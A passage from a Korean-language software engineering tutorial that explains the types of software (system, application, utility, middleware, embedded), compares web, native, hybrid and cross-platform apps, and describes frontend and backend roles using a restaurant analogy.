  * 따라서 드라이버 코드에 치명적인 버그나 메모리 누수가 발생하면, 운영체제 전체가 멈추며 파란 화면(Windows의 BSOD: Blue Screen of Death)이나 커널 패닉(Linux Kernel Panic)을 일으키게 됩니다.

#### (3) 운영체제 (OS, Operating System): 시스템 자원의 총사령관
* **정의**: 컴퓨터 시스템의 하드웨어 자원(CPU, 메모리, 보조기억장치, 입출력 장치)을 관리하고, 응용 프로그램에 편리한 추상화(Abstraction) 계층과 보안 장벽을 제공하는 핵심 소프트웨어입니다.
* **주요 4대 핵심 기능**:
  1. **프로세스 및 스레드 관리**: CPU 시간을 쪼개어 여러 프로그램이 마치 동시에 실행되는 것처럼 보이게 만드는 시분할 스케줄링(Context Switching, Round Robin 등).
  2. **가상 메모리 관리**: 물리 RAM의 크기 한계를 극복하고, 프로그램마다 독립된 4GB~수백TB의 주소 공간을 부여하여 서로의 메모리를 침범하지 못하도록 격리하는 페이징(Paging) 및 보호(Protection).
  3. **파일 시스템 관리**: 디스크의 0과 1 블록을 사람이 이해할 수 있는 계층적 디렉터리와 파일 구조(NTFS, ext4, APFS 등)로 추상화.
  4. **입출력(I/O) 및 시스템 호출(System Call)**: 응용 프로그램이 하드웨어에 직접 손대지 못하게 차단하고, 반드시 `sys_read()`, `sys_write()` 등의 정해진 관문을 거쳐 안전하게 하드웨어를 사용하도록 통제.
* **대표 예시**: 데스크톱/서버의 Linux, Windows, macOS, 모바일 기기의 Android, iOS 등.

---

### 2. 응용 소프트웨어 (Application Software)

응용 소프트웨어는 흔히 우리가 부르는 **'어플(App)'**이나 **'프로그램'**의 본체입니다. 컴퓨터 시스템의 유지보수나 하드웨어 제어 자체가 목적이 아니라, **"사람(최종 사용자)이 원하는 특정한 업무, 창작, 소통, 오락 등의 비즈니스 목적을 달성하기 위해 제작된 소프트웨어"**를 의미합니다.

* **특징**:
  * 하드웨어나 커널의 세부 구조를 알지 못해도 운영체제가 제공하는 API(System Call)나 런타임 위에서 손쉽게 동작합니다.
  * 사용자와 직접 만나는 **GUI(Graphical User Interface)** 또는 CLI(Command Line Interface)를 갖추고 있습니다.
* **분류 및 대표 사례**:
  * **사무 및 생산성**: Microsoft Office 365, Notion, Google Docs
  * **웹 및 인터넷**: Google Chrome, Mozilla Firefox, Safari
  * **미디어 및 창작**: Adobe Photoshop, Premiere Pro, Blender
  * **비즈니스 엔터프라이즈**: ERP(SAP), CRM(Salesforce), 결제 정산 시스템
  * **엔터테인먼트**: 3D 대작 게임(배틀그라운드, 롤), 음악/동영상 플레이어

---

### 3. 유틸리티 소프트웨어 (Utility Software)

유틸리티 소프트웨어는 응용 소프트웨어와 시스템 소프트웨어의 경계에 위치하는 독특한 소프트웨어입니다. 사용자의 직접적인 생산성 업무(예: 회계 장부 작성, 보고서 작성)를 수행하지는 않지만, **"컴퓨터 시스템의 원활한 운영, 유지보수, 보안, 성능 분석 및 최적화를 위해 보조적으로 사용되는 도구"**입니다.

* **특징**:
  * 시스템 소프트웨어처럼 하드웨어와 파일 시스템의 깊은 영역까지 접근하여 점검하지만, 운영체제 자체는 아닙니다.
  * 단일 목적에 특화되어 크기가 작고 가벼우며, 작업이 끝나면 상주하지 않거나 백그라운드 데몬으로 조용히 감시합니다.
* **대표 사례**:
  * **보안 및 진단**: 바이러스 백신(Windows Defender, V3, AhnLab), 악성코드 검사기, 방화벽 설정기
  * **저장공간 최적화**: 디스크 조각 모음, 임시 파일 정리 도구(CCleaner), 중복 파일 탐색기
  * **파일 유틸리티**: 압축 및 해제 도구(Bandizip, 7-Zip), 파일 동기화 도구
  * **시스템 분석/벤치마크**: CPU-Z, HWMonitor, 작업 관리자(Process Explorer), 패킷 캡처기(Wireshark)

---

### 4. 미들웨어 (Middleware): 분산 세상의 소프트웨어 접착제

과거에는 프로그램이 단일 컴퓨터 내부에서 OS 위에서만 실행되었기 때문에 시스템 소프트웨어와 응용 소프트웨어의 2분법으로 충분했습니다. 그러나 오늘날의 모든 서비스는 전 세계 수만 대의 컴퓨터가 네트워크로 얽힌 **분산 시스템(Distributed System)** 환경입니다. 

이때 서로 다른 이기종 운영체제(Linux, Windows), 서로 다른 프로그래밍 언어(Java, Python, Go), 서로 다른 데이터베이스 간에 데이터를 투명하게 주고받고 조율하기 위해 등장한 계층이 바로 **미들웨어(Middleware)**입니다. 미들웨어는 **"소프트웨어와 소프트웨어를 이어주는 접착제(Glue Software)"**로 불립니다.

* **핵심 역할**:
  * 서로 다른 시스템 간의 데이터 통신 프로토콜 통일
  * 동시 접속자 수십만 명을 감당하기 위한 쓰레드 풀 및 네트워크 커넥션 관리
  * 트랜잭션의 정합성 보장 및 비동기 메시지 버퍼링
* **현대 백엔드 아키텍처에서의 주요 미들웨어 군**:
  1. **WAS (Web Application Server)**: Apache Tomcat, Netty, Undertow, Node.js 엔진 등. HTTP 요청을 받아 비즈니스 로직(Java, JavaScript)을 실행하고 결과를 응답하는 웹 전용 런타임 미들웨어.
  2. **메시지 브로커 (Message Oriented Middleware - MOM)**: Apache Kafka, RabbitMQ, ActiveMQ. 대규모 시스템 간에 데이터를 실시간으로 비동기 전달하고 큐잉(Queueing)하는 파이프라인.
  3. **데이터베이스 커넥션 풀러 (Connection Pooler)**: HikariCP, PgBouncer. 애플리케이션과 DB 사이의 비싼 TCP 연결을 미리 맺어두고 재사용하는 고성능 중계기.
  4. **RPC 및 서비스 메시**: gRPC, Envoy, Istio. 마이크로서비스(MSA) 환경에서 수백 개의 서비스들이 마치 로컬 함수를 호출하듯 고속 바이너리 통신을 하도록 돕는 통신 미들웨어.

---

### 5. 임베디드 소프트웨어 (Embedded Software): 극도의 제약 속에서 피어나는 기술

임베디드 소프트웨어는 범용 컴퓨터(PC, 스마트폰, 일반 서버)가 아니라, **"특정한 목적을 위해 제작된 전용 하드웨어(Embedded System) 내부의 마이크로프로세서에서 동작하도록 내장된 소프트웨어"**입니다.

* **범용 소프트웨어와의 근본적인 차이점**:
  1. **극도의 하드웨어 자원 제약**: PC는 수십 기가바이트의 RAM을 쓰지만, 임베디드 기기는 수 킬로바이트(KB)~수 메가바이트(MB) 수준의 RAM과 저전력 MCU(ARM Cortex-M, AVR, RISC-V)에서 돌아가야 합니다. 메모리 한 바이트의 낭비도 허용되지 않습니다.
  2. **실시간성(Real-Time Guarantee)의 요구**: 일반 컴퓨터는 게임이 잠깐 0.5초 끊겨도(렉이 걸려도) 사람이 죽지 않습니다. 하지만 자동차의 에어백 제어기, 브레이크 시스템(ABS), 항공기 비행 제어기, 인공심장박동기 등의 소프트웨어는 특정 시간(예: 0.005초) 안에 연산을 끝내지 못하면 대형 인명사고로 직결됩니다. 이를 보장하기 위해 범용 OS 대신 **RTOS(Real-Time Operating System: FreeRTOS, VxWorks, QNX)**를 사용합니다.
  3. **높은 신뢰성과 무중단 실행**: 한번 제품이 양산되어 출하되거나 우주선에 탑재되면 물리적으로 소프트웨어를 수정하기 어렵기 때문에 극도로 엄격한 안전성 테스트(MISRA C 표준 등)를 거칩니다.
* **대표 분야**:
  * 자동차 전장 소프트웨어 (AUTOSAR 기반 ECU, 자율주행 센서 퓨전)
  * 스마트 가전 및 IoT (스마트 세탁기, 로봇청소기, 스마트 전구)
  * 로보틱스, 산업용 PLC, 무기 체계 및 항공우주 항공전자(Avionics)

---

### 6. 소프트웨어 5대 유형 종합 비교 분석표

| 구분 | 시스템 소프트웨어 | 응용 소프트웨어 | 유틸리티 소프트웨어 | 미들웨어 | 임베디드 소프트웨어 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **주요 목적** | 하드웨어 자원 관리 및 기본 실행 환경 제공 | 최종 사용자의 비즈니스 문제 해결 및 생산성/오락 | 시스템 관리, 유지보수, 보안 및 성능 최적화 | 분산 시스템 간의 이기종 연동 및 통신 중계 | 특수 목적 하드웨어 제어 및 실시간 반응 |
| **실행 위치** | 하드웨어 직상위 (커널 공간 / Ring 0) | 운영체제 상위 (사용자 공간 / Ring 3) | 사용자 공간 (일부 드라이버 레벨 연동) | OS와 응용 소프트웨어 사이 (네트워크 계층) | 기기 내장 ROM/플래시 메모리 (Bare-metal or RTOS) |
| **하드웨어 종속성** | **매우 높음** (CPU 아키텍처, 칩셋에 종속) | **낮음** (OS API 및 런타임에 종속) | **중간** (파일 시스템, 하드웨어 사양에 영향) | **매우 낮음** (네트워크 표준 프로토콜 기반 독립적) | **극도로 높음** (회로 설계, MCU 핀맵에 100% 종속) |
| **주요 사용자** | 운영체제 엔지니어, 응용 프로그램(간접) | 일반 최종 사용자 (소비자, 직장인 등) | 시스템 관리자, 컴퓨터 사용자 | 백엔드 엔지니어, 분산 시스템 아키텍트 | 하드웨어 엔지니어, 펌웨어 개발자 |
| **성능 병목 요인**| CPU 콘텍스트 스위칭, 인터럽트 처리 지연 | 비즈니스 알고리즘, 렌더링/UI 반응 속도 | I/O 디스크 탐색 속도, 바이러스 DB 검색 오버헤드 | 네트워크 레이턴시, 직렬화/역직렬화 비용 | CPU 클럭 제약, RAM 용량 부족, 데드라인 미달 |
| **대표 예시** | Linux 커널, Windows 11, NVIDIA 그래픽 드라이버 | Chrome, Photoshop, MS Excel, 카카오톡 | V3 백신, 알집, Bandizip, 작업 관리자 | Apache Kafka, Tomcat, Redis, gRPC | 자동차 ABS 제어기, 로봇청소기 펌웨어, 스마트워치 |

---

## 02 웹, 웹 앱, 네이티브 앱, 하이브리드 앱의 차이: 플랫폼의 선택과 진화

스마트폰의 탄생 이후 소프트웨어 개발의 무게중심은 데스크톱 단일 실행 파일(`.exe`)에서 **모바일 디바이스**와 **웹 브라우저**로 급격히 이동했습니다. 개발자와 아키텍트는 프로젝트를 시작할 때 언제나 중대한 갈림길에 섭니다.

> *"우리의 서비스를 웹으로 만들 것인가, 앱으로 만들 것인가? 앱이라면 네이티브로 짤 것인가, 크로스 플랫폼으로 만들 것인가?"*

이 질문에 올바르게 답하기 위해서는 각 플랫폼의 기술적 메커니즘과 장단점을 뼈속까지 꿰뚫고 있어야 합니다.

---

### 1. 웹 사이트 vs 웹 애플리케이션: 문서에서 소프트웨어로

우리가 매일 주소창에 URL을 치고 들어가는 웹(Web)은 지난 30년간 극적인 패러다임 변화를 겪었습니다.



* **웹 사이트 (Web Site)**:
  * **본질**: 하이퍼텍스트(Hypertext) 문서의 모음입니다. 인터넷 초기의 웹처럼 텍스트, 이미지, 링크로 구성되어 **정보를 일방향으로 읽고 탐색하는 것**이 주된 목적입니다.
  * **동작 방식**: 사용자가 링크를 클릭하면 브라우저는 서버에 완전히 새로운 HTML 문서를 요청하고, 전체 화면이 하얗게 깜빡이며 새 페이지를 처음부터 다시 그립니다(Multi-Page Application: MPA).
  * **대표 예시**: 기업 홍보용 웹페이지, 단순 블로그, 뉴스 기사 사이트, 위키백과.
* **웹 애플리케이션 (Web Application)**:
  * **본질**: 브라우저라는 가상 머신(V8 등의 JS 엔진) 위에서 실행되는 **정교한 소프트웨어**입니다.
  * **동작 방식**: 단순한 문서 열람을 넘어 사용자가 데이터를 생성하고, 편집하고, 실시간으로 통신합니다. 초기 진입 시 자바스크립트 애플리케이션 번들이 브라우저에 다운로드된 뒤, 서버와는 화면 전체가 아닌 **순수 데이터(JSON)**만을 비동기(AJAX/Fetch)로 주고받으며 UI의 특정 영역만 부드럽게 갱신합니다(Single Page Application: SPA).
  * **대표 예시**: Google Docs, Figma(웹에서 돌아가는 전문가용 2D/3D 벡터 그래픽 도구), Notion, Spotify 웹 플레이어.

---

### 2. 네이티브 앱 (Native App): 성능의 정점과 플랫폼의 지배자

* **정의**: 특정 모바일 운영체제(iOS 또는 Android)에 전적으로 특화된 프로그래밍 언어와 전용 SDK(Software Development Kit)를 사용하여 빌드된 애플리케이션입니다.
  * **iOS**: Swift 또는 Objective-C 언어 + Xcode IDE + Apple Cocoa Touch 프레임워크 (UIKit, SwiftUI)
  * **Android**: Kotlin 또는 Java 언어 + Android Studio + Android SDK (Android Views, Jetpack Compose)
* **아키텍처 원리**:
  * 소스 코드가 최종적으로 각 모바일 디바이스의 CPU(주로 ARM 아키텍처)가 직접 이해할 수 있는 기계어 바이너리(Mach-O, ELF) 또는 안드로이드 전용 가상 머신 바이트코드(ART/DEX)로 완벽하게 사전 컴파일(AOT: Ahead-Of-Time Compilation)됩니다.
  * 중간 통역사나 브릿지 없이 운영체제의 커널 및 하드웨어 API를 직통으로 호출합니다.

```
[ 네이티브 앱 아키텍처 ]
┌────────────────────────────────────────────────────────┐
│               iOS / Android Native App                 │
│              (Swift / Kotlin 코드로 작성)              │
└────────────────────────────────────────────────────────┘
                           │ (직접 호출: No Bridge)
                           ▼
┌────────────────────────────────────────────────────────┐
│           Platform SDK & UI Components                 │
│      (SwiftUI, Jetpack Compose, Metal, CoreGraphics)   │
└────────────────────────────────────────────────────────┘
                           │
                           ▼
┌────────────────────────────────────────────────────────┐
│          OS Kernel & Hardware (CPU / GPU)              │
└────────────────────────────────────────────────────────┘
```

* **장점**:
  1. **압도적인 성능과 부드러움**: 120Hz 고주사율 디스플레이(Apple ProMotion 등)에서도 프레임 드랍(Stuttering) 없는 극한의 반응 속도와 렌더링 성능을 자랑합니다.
  2. **하드웨어 100% 활용**: 카메라 하드웨어의 초점 제어, 라이다(LiDAR) 센서, Face ID, 블루투스 저전력(BLE), 백그라운드 위치 추적, 햅틱 진동 피드백 등 기기의 모든 최신 기능을 OS 업데이트 당일부터 지체 없이 사용할 수 있습니다.
  3. **완벽한 플랫폼 UI/UX 일관성**: 애플의 인간 중심 인터페이스 가이드라인(HIG)이나 구글의 머티리얼 디자인(Material You)을 완벽하게 준수하여 사용자에게 가장 친숙한 제스처와 애니메이션을 제공합니다.
* **단점**:
  1. **막대한 개발 비용과 시간**: iOS 앱과 Android 앱을 각각 완전히 다른 언어와 도구로 두 번 개발해야 하므로, 개발팀이 2배로 필요하고 유지보수 비용도 정직하게 2배가 듭니다.
  2. **앱스토어 심사 및 배포 지연**: 코드를 단 한 줄 수정하더라도 Apple App Store와 Google Play Store의 엄격한 검수 과정을 거쳐야 하며, 승인까지 수 시간에서 수일이 소요됩니다.
  3. **사용자의 업데이트 의존성**: 사용자가 스토어에서 직접 '업데이트' 버튼을 누르지 않으면 버그가 수정된 최신 버전을 강제 적용하기 어렵습니다.

---

### 3. 하이브리드 앱 & 크로스 플랫폼 앱: 타협과 혁신의 공존

네이티브 앱의 치명적인 단점인 **"높은 개발 비용과 중복 개발"**을 해결하기 위해, 하나의 소스 코드로 iOS와 Android를 동시에 정복하려는 다양한 시도가 이루어져 왔습니다.

```mermaid
flowchart TD
    subgraph Hybrid ["1. 웹뷰 기반 하이브리드 (Cordova/Capacitor)"]
        H_App["HTML/CSS/JS 코드"] --> H_WV["웹뷰 브라우저 엔진 (WebKit)"]
        H_WV -->|플러그인 브릿지| H_Native["네이티브 쉘 (Java/Obj-C)"]
        H_Native --> H_HW["기기 하드웨어"]
    end

    subgraph CrossRN ["2. JS 브릿지 크로스 플랫폼 (React Native)"]
        RN_App["React (JavaScript/TS)"] --> RN_Bridge["JSI / 비동기 브릿지"]
        RN_Bridge --> RN_NativeUI["실제 네이티브 UI 컴포넌트<br>(UIView / android.view)"]
        RN_NativeUI --> RN_HW["기기 하드웨어"]
    end

    subgraph CrossFlutter ["3. 자체 엔진 크로스 플랫폼 (Flutter)"]
        F_App["Dart 코드"] --> F_Engine["Flutter 렌더링 엔진<br>(Impeller / Skia)"]
        F_Engine -->|화면 픽셀 직접 드로잉| F_GPU["GPU / 하드웨어"]
    end

    classDef c1 fill:#FFF9C4,stroke:#FBC02D,stroke-width:2px;
    classDef c2 fill:#E1BEE7,stroke:#8E24AA,stroke-width:2px;
    classDef c3 fill:#C8E6C9,stroke:#388E3C,stroke-width:2px;

    class Hybrid c1;
    class CrossRN c2;
    class CrossFlutter c3;
```

#### (1) 웹뷰 기반 하이브리드 앱 (WebView-based Hybrid App)
* **대표 기술**: Apache Cordova(PhoneGap), Ionic, Capacitor
* **구조와 원리**:
  * 겉포장(Wrapper)만 네이티브 앱의 틀을 씌워 두고, 실제 앱 내부 화면은 **웹뷰(WebView: 모바일 브라우저 창)** 하나를 띄운 뒤 그 안에서 HTML, CSS, JavaScript로 만든 웹페이지를 실행합니다.
  * 기기의 카메라나 GPS를 써야 할 때는 자바스크립트와 네이티브 코드 사이에 미리 만들어 둔 '플러그인 브릿지'를 통해 명령을 주고받습니다.
* **장단점**:
  * **장점**: 기존에 만들어 둔 웹사이트 코드를 그대로 가져와 하루 만에 앱으로 포장할 수 있습니다. 웹 기술자만으로 모바일 앱을 출시할 수 있습니다.
  * **단점**: 스크롤 버벅임, 제스처 반응 지연 등 **사용자 경험이 극히 떨어집니다.** 브라우저 위에서 가상으로 렌더링되다 보니 스마트폰 특유의 쫀득한 스크롤링과 네이티브 감성을 흉내 내기 어렵습니다.

#### (2) 리액트 네이티브 (React Native): 네이티브 UI를 조종하는 자바스크립트
* **대표 기술**: Meta(페이스북)의 React Native
* **구조와 원리**:
  * 하이브리드 앱처럼 웹뷰에 HTML을 띄우는 것이 아닙니다.
  * 개발자는 React 문법으로 자바스크립트 코드를 작성하지만, 화면에 렌더링되는 것은 실제 iOS의 `UIView`와 안드로이드의 `android.widget` 같은 **진짜 네이티브 UI 위젯**입니다.
  * 자바스크립트 스레드와 네이티브 스레드가 **브릿지(Bridge)** 또는 최신 아키텍처의 **JSI(JavaScript Interface)**를 통해 C++ 수준에서 고속으로 소통합니다.
* **장점**: 하이브리드 앱보다 월등히 빠르며, 네이티브 앱에 준하는 준수한 UI 완성도를 가집니다. 이미 방대한 웹 개발자(React) 인력을 모바일 앱 개발로 즉시 투입할 수 있습니다.

#### (3) 플러터 (Flutter): 화면 픽셀을 직접 그리는 캔버스
* **대표 기술**: Google의 Flutter (Dart 언어 사용)
* **구조와 원리**:
  * 네이티브 UI 위젯을 빌려 쓰는 React Native와 달리, 플러터는 게임 엔진처럼 화면 전체를 하나의 도화지로 보고 자체 2D 그래픽 렌더링 엔진(**Impeller**, 구 Skia)을 통해 **화면의 모든 픽셀을 직접 그립니다(Canvas Rendering).**
* **장점**:
  * iOS든 Android든 구형 기기든 상관없이 **완벽하게 100% 동일한 UI 화면과 애니메이션**을 보장합니다.
  * 네이티브 위젯으로 변환하는 오버헤드가 없어 크로스 플랫폼 중 가장 뛰어난 초당 60~120fps의 부드러운 그래픽 성능을 발휘합니다.

---

### 4. 플랫폼 형태별 완벽 비교 분석표

| 비교 항목 | 모바일 웹 (Web) | 웹뷰 하이브리드 앱 | 크로스 플랫폼 (RN / Flutter) | 네이티브 앱 (iOS/Android) |
| :--- | :--- | :--- | :--- | :--- |
| **렌더링 방식** | 브라우저 DOM 렌더링 | 앱 내 웹뷰(WebView) 렌더링 | 네이티브 뷰 매핑(RN) / 자체 엔진 픽셀 렌더링(Flutter) | OS 네이티브 렌더링 엔진 |
| **실행 성능** | 보통 (네트워크 의존적) | 낮음 (스크롤 끊김 및 지연 발생) | **높음** (네이티브의 85~95% 수준) | **최상 (100% 하드웨어 가속)** |
| **하드웨어 접근성** | 매우 제한적 (카메라/GPS 일부) | 중간 (플러그인 지원 범위 내) | **우수함** (대부분 지원, 네이티브 모듈 연동 가능) | **완벽함 (모든 센서 및 최신 API 즉각 지원)** |
| **개발 생산성** | **최상** (단일 웹 개발) | **최상** (기존 웹 자산 100% 재활용) | **매우 높음 (단일 코드베이스로 80~90% 공유)** | **낮음 (플랫폼별 100% 별도 개발 필요)** |
| **초기 개발 비용** | 매우 저렴함 | 매우 저렴함 | **합리적 (1개 팀으로 양대 마켓 공략)** | **매우 비쌈 (iOS팀 + 안드로이드팀 별도 구성)** |
| **배포 및 업데이트** | **즉시 배포 (URL 반영)** | 즉시 배포 (웹 영역은 OTA 패치 가능) | 스토어 심사 필요 (단, JS 번들은 CodePush 지원) | **스토어 심사 필수 (수 시간~수일 소요)** |
| **앱스토어 노출** | 불가능 (검색엔진 SEO 의존) | 가능 (스토어 등록) | **가능 (스토어 등록 및 ASO 최적화)** | **가능 (스토어 피처드 선정 유리)** |
| **적합한 프로젝트** | 정보 전달형 사이트, 프로토타입 | 사내 인트라넷, 단순 쇼핑몰, 콘텐츠 뷰어 | **대부분의 스타트업 서비스, 범용 B2C/B2B 서비스** | **3D 그래픽/게임, 실시간 영상처리, 금융/보안 고도화 앱** |

---

## 03 프론트엔드와 백엔드: 보이지 않는 분업의 예술

소프트웨어 개발 분야를 처음 접하는 사람들이 가장 많이 듣는 용어가 바로 **"프론트엔드(Frontend)"**와 **"백엔드(Backend)"**입니다. 이 두 진영의 분리는 단순히 업무를 쪼갠 것이 아니라, 현대 컴퓨터 과학이 지향하는 **"관심사의 분리(Separation of Concerns)"**와 **"클라이언트-서버 모델"**이라는 근본 철학에서 비롯되었습니다.



---

### 1. 프론트엔드(Frontend): 사용자가 경험하는 시각적 우주

프론트엔드는 **"사용자의 디바이스(브라우저, 스마트폰 화면 등)에서 직접 실행되며, 사용자와 시스템 간의 시각적·촉각적 인터랙션을 담당하는 모든 영역"**을 총칭합니다.

* **핵심 책임**:
  1. **UI/UX 구현**: 디자이너의 시각적 디자인을 한 픽셀의 오차도 없이 모든 크기의 화면(스마트폰, 태블릿, 데스크톱)에 반응형(Responsive)으로 깨지지 않게 구현합니다.
  2. **상태 관리(State Management)**: 사용자가 버튼을 클릭하고, 모달창을 띄우고, 폼에 텍스트를 입력할 때 변화하는 수많은 실시간 데이터('상태')를 추적하고 화면을 일관성 있게 동기화합니다.
  3. **렌더링 성능 최적화**: 1초라도 로딩이 느리면 사용자는 이탈합니다. 이미지 최적화, 코드 분할(Code Splitting), 렌더링 트리거 최소화를 통해 첫 화면(FCP, LCP)을 번개처럼 띄워야 합니다.
  4. **인간 공학적 배려**: 웹 접근성(a11y)을 고려하여 시각 장애인도 스크린 리더기로 웹을 탐색할 수 있게 시맨틱 태그를 작성하고, 키보드 네비게이션을 지원합니다.

---

### 2. 백엔드(Backend): 시스템의 신뢰성을 담보하는 보이지 않는 심장

백엔드는 사용자의 눈에 전혀 보이지 않는 원격지의 물리적/가상화된 서버 컴퓨터 내부에서 실행됩니다. **"비즈니스의 핵심 규칙(Business Logic)을 집행하고, 데이터를 안전하게 영구 저장하며, 거대한 트래픽 속에서도 시스템이 다운되지 않도록 지탱하는 모든 영역"**을 담당합니다.

* **핵심 책임**:
  1. **비즈니스 로직(Business Rules) 구현**: 
     * 예: "계좌에 잔액이 있을 때만 출금되어야 한다", "할인 쿠폰은 1인당 1회만 발급된다", "주문이 완료되면 재고 수량을 1 차감하고 배송 시스템에 신호를 보낸다"와 같은 실제 사업의 핵심 규칙을 코드로 철통같이 집행합니다.
  2. **사용자 인증 및 인가 (AuthN & AuthZ)**:
     * 로그인한 사용자가 정말 본인이 맞는지(Authentication: JWT 토큰, OAuth2, 세션 검증) 확인하고, 그 사용자가 관리자 페이지에 접근할 자격이 있는지(Authorization) 검문합니다.
  3. **데이터의 영속성(Persistence)과 트랜잭션 보장**:
     * 전원이 꺼져도 데이터가 날아가지 않도록 데이터베이스에 저장하며, 은행 송금처럼 여러 단계의 작업이 일어날 때 중간에 에러가 나면 모든 것을 원점으로 되돌리는 **ACID 트랜잭션(Atomicity, Consistency, Isolation, Durability)**을 보장합니다.
  4. **확장성(Scalability)과 고가용성(High Availability)**:
     * 블랙프라이데이나 수강신청처럼 수십만 명의 사용자가 동시에 몰려올 때 서버가 터지지 않도록 트래픽을 여러 서버로 분산(Load Balancing)하고, 병목을 캐싱(Redis)하여 99.99% 이상의 무중단 서비스를 유지합니다.

---

### 3. 식당의 완벽한 비유: 홀(Hall)과 주방(Kitchen)

프론트엔드와 백엔드의 상호작용은 고급 레스토랑의 운영 방식과 놀라울 정도로 완벽하게 일치합니다.

```
[ 식당의 홀 (Frontend) ]                       [ 식당의 주방 (Backend) ]
┌───────────────────────────────────────┐     ┌───────────────────────────────────────┐
│ • 손님 (User)                         │     │ • 주문 접수대 (API Gateway / Controller)
│ • 테이블 & 인테리어 (UI / 레이아웃)    │     │ • 주방장 / 셰프 (Service / Business Logic)
│ • 메뉴판 (클라이언트 컴포넌트 & 라우팅)│     │ • 레시피 북 (도메인 비즈니스 룰)       │
│ • 주문표 작성 (폼 입력 & 클라이언트 유효성)│  │ • 식자재 창고 (Database: PostgreSQL) │
│                                       │     │ • 쇼케이스 신선실 (Cache: Redis)      │
│        ▼                              │     │ • 위생 검사관 (인증/인가 미들웨어)     │
│ [웨이터 (HTTP Request / Response)] ───┼─────┼──►                                    │
│ "3번 테이블 스테이크 미디움 1개 주문이요!"│   │                                       │
└───────────────────────────────────────┘     └───────────────────────────────────────┘
```

* **손님(User)**: 화면을 터치하고 서비스를 이용하는 최종 사용자입니다.
* **식당 인테리어와 테이블(UI Design & Layout)**: 손님이 쾌적함을 느끼고 서비스를 이용하기 편하도록 배치된 시각적 화면입니다.
* **메뉴판(Front-end Components)**: 손님이 주문할 수 있는 선택지 목록을 보여줍니다.
* **손님의 주문서 작성(Form Validation)**: 손님이 메뉴판에 없는 메뉴를 적으려고 하면 웨이터를 부르기도 전에 "저희 식당엔 없는 메뉴입니다"라고 미리 걸러냅니다(클라이언트 폼 유효성 검사).
* **웨이터(API / Network Protocol)**:
  * 손님이 주문을 완료하면 웨이터는 주방으로 달려가 주문서를 전달합니다(**HTTP POST 요청**).
  * 주방에서 요리가 완성되면 접시를 받아 손님 테이블로 가져다줍니다(**HTTP 응답 및 JSON 데이터 전달**).
  * 웨이터는 홀과 주방 사이의 규격화된 약속(API 명세서)에 따라 움직입니다.
* **주방 입구의 위생 검사관(Authentication & Authorization)**: 외부인이 주방에 함부로 들어오지 못하게 막고, 주문서에 위조된 결제 도장이 찍혀 있지 않은지 확인합니다.
* **요리사/주방장(Backend Service & Business Logic)**: 
  * 손님의 눈에 보이지 않는 곳에서 분주하게 움직입니다.
  * 레시피(비즈니스 룰)에 따라 화력을 조절하고, 스테이크를 굽습니다. "재고가 떨어진 고기는 판매하지 않는다"는 규칙을 엄격히 집행합니다.
* **식자재 창고(Database)**: 대량의 신선한 고기, 채소, 와인이 유통기한과 품목별로 체계적으로 정리되어 있는 대형 냉동창고입니다.
* **자주 쓰는 양념통/반찬통(Cache Server - Redis)**: 매번 먼 창고까지 가지 않고 요리사 손 바로 닿는 곳에 소금과 소스를 준비해 두어 요리 시간을 대폭 단축합니다.

---

### 4. 영역별 현대 기술 스택 (Tech Stack) 총정리

현대 IT 생태계는 고도화된 전문성을 요구하며, 프론트엔드와 백엔드 각각 방대하고 체계적인 기술 로드맵이 구축되어 있습니다.

#### (1) 프론트엔드 개발자 핵심 기술 스택
* **언어와 기초**:
  * **HTML5 / CSS3**: 웹 표준 시맨틱 태그, Flexbox 및 CSS Grid 레이아웃 시스템, 미디어 쿼리
  * **JavaScript (ES6+)**: 비동기 처리(Promise, `async/await`), 클로저, 이벤트 루프
  * **TypeScript**: 런타임 에러를 컴파일 시점에 잡아내기 위한 정적 타입 시스템 (현업의 사실상 표준)
* **모던 UI 프레임워크 & 라이브러리**:
  * **React**: 컴포넌트 기반 아키텍처와 가상 DOM(Virtual DOM)을 대중화한 전 세계 1위 라이브러리
  * **Vue.js**: 진입 장벽이 낮고 직관적인 템플릿 문법을 가진 프레임워크
  * **Svelte**: 가상 DOM 없이 빌드 타임에 순수 자바스크립트로 변환하는 고성능 신흥 강자
* **풀스택 메타 프레임워크**:
  * **Next.js (React 기반)**, **Nuxt (Vue 기반)**, **SvelteKit**: 서버 사이드 렌더링(SSR), 정적 사이트 생성(SSG), API 라우트를 통합 제공하는 모던 웹의 핵심 표준
* **상태 관리 도구**:
  * 전역 클라이언트 상태: **Zustand**, **Redux Toolkit**, Recoil
  * 서버 비동기 캐시 상태: **TanStack Query (React Query)**, SWR
* **스타일링 & 빌드 도구**:
